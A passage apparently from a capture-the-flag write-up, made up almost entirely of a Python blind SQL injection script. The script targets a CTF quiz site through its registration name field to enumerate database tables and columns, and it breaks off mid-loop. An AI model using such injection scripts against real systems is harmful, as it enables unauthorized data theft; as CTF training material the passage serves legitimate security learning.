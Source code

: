 ```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import requests
import random
import string


HOST = "https://bruzz.ctf.bzh/"

s = requests.session()
letters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def get_random_string(length=6):
    # Used for random comment
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str

def is_true(inject):
    inject = inject+f" #{get_random_string()}"  # Random comment to avoid same name player
    s.post(f"{HOST}/register", json={"name": inject})  # Play
    rep = s.post(f"{HOST}/quizz", json={"responses": [0, 2, 1, 3]})  # Submit answers
    try:
        nb = int(rep.json()["msg"].split(">")[1].split("<")[0])  # Get players numbers
        return nb > 0
    except:
        return False


for i in range(1, 5):
    r = is_true(f"' OR 1=1 AND (SELECT count(table_name) FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' ) = {i}")
    if r:
        print(f"[*] Nombre de tables: {i}")
# 2 tables

table = ""
while len(table) < 15:  # While True
    for l in letters:
        r = is_true(f"' OR 1=1 AND (SELECT table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' LIMIT 1) LIKE '{table+l}%'")
        if r:
            table += l
            print(f"[*] Table: {table}", end="\r")
            break
print(f"[*] Table: {table}")
# Table administrateurs

col = ""
while len(col) < 8:  # While True
    for l in letters:
        r = is_true(f"' OR 1=1 AND (SELECT column_name FROM information_schema.columns WHERE table_name = '{table}' LIMIT 1) LIKE '{col+l}%'")
        if r:
            col += l
            print(f"[*] Column: {col}", end="\r")
            break
print(f"[*] Column: {col}")
# Column username

col = ""
while len(col) < 6:  # While True
    for l in letters:
```